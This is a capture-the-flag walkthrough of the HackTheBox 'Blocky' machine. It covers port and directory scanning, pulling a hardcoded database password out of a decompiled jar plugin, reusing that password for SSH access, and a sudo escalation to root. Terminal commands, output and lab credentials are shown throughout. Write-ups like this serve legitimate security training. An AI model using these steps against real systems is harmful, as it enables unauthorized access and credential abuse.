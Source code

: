 # BLOCKY

## ENUMERATION

Nmap scan result 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ nmap 10.10.10.37
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 08:55 EDT
Nmap scan report for 10.10.10.37
Host is up (0.24s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 18.71 seconds

┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ nmap 10.10.10.37 -p 21,22,80,8192 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-06 08:56 EDT
Nmap scan report for 10.10.10.37
Host is up (0.22s latency).

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

Gobuster scan result 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.37 -t 100 -q
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.10.37/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/server-status        (Status: 403) [Size: 299]                                     
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]      
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]   
```

Visiting the ```/phpmyadmin``` directory we find a login page 

Next I open the ```/plugins``` directory to find two jar files 

## LOGIN

After downloading the jar file I decompile the files using the command ```jar xf filename``` 
Searching through the files we got after decompilation I found this

```
┌──(kali㉿kali)-[~/…/hackthebox/blocky/com/myfirstplugin]
└─$ cat BlockyCore.class

����4-com/myfirstplugin/BlockyCorejava/lang/ObjectsqlHostLjava/lang/String;sqlUsersqlPass<init>()VCode


        localhost
                       root
                               8YsqfCTnvxAUeduzjNSXe22
                                                       LineNumberTableLocalVariableTableonServerStartrstplugin/BlockyCore;
             onServerStop
                         onPlayerJoi"TODO get usernam$!Welcome to the BlockyCraft!!!!!!!
&
 '(
```

It looks like the username and password so I tried to login with ```username:root and password:8YsqfCTnvxAUeduzjNSXe22``` and it worked

## SSH

I tried ssh using the same creds as above but it didn't work

While checking through all the files with the keyword user in their name I found another user 

![](https://github.com/Leo-2807/Writeups/blob/main/images/blocky.png)

So I tried ssh with ```username:notch and password:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/``` but it didn't work aswell

Then I tried ```username:notch and password:8YsqfCTnvxAUeduzjNSXe22``` and it worked

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/blocky]
└─$ ssh notch@10.10.10.37                                                         255 ⨯
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
```

## USER --> ROOT

Using the command ```sudo -l``` to check sudo previleges of our user and we have got all of them

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# whoami
root
root@Blocky:~# cd /root
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
```
